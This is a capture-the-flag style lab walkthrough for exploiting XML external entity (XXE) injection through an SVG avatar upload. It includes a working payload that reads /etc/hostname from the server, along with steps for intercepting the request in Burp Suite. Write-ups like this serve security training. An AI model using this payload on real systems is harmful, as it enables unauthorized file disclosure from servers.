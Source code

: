 
### Exploiting XXE via image file upload : PRACTITIONER

---

> Visiting any post and uploading a comment.

![](./screenshots/lab9-1.png)

> Intercept the `POST` request with BURPSUITE PROXY HTTP history on.

![](./screenshots/lab9-2.png)

> We can try to change the contet of the file, and change it to an `SVG` file to be able to support XML and add.

> Adding the payload.
```XML
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">

<text font-size="16" x="0" y="16">&xxe;</text>

</svg>
```

> The first 2 lines are used to instantiate XML.
> We add the entity `xxe` to hold the file contents, and call it using `&xxe;` in the `text` tag.
> The remaining lines are used to create the image and set its size.

![](./screenshots/lab9-3.png)

> Following the redirections and then going to the comments page, we see that one of the avatars has text.

![](./screenshots/lab9-4.png)

> Opening the image in a new tab and copying the secret.

![](./screenshots/lab9-5.png)

```
7198d31ba274
```

> Submitting that completes the lab.

---
